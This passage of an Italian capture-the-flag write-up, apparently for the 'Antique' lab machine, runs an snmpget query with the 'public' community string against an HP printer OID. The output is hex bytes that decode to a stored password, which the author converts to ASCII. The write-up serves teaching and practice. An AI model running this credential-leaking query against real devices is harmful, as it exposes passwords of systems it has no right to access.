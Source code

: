 Usiamo l'exploit trovato.

```shell
┌─[✗]─[dua2z3rr@parrot]─[~]
└──╼ $snmpget -v2c -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```

Convertiamo il risultato in ascii. Io ho usato questo tool online: <https://www.rapidtables.com/convert/number/hex-to-ascii.html>

![Desktop View](/assets/img/antique/antique-exploit-1.png)
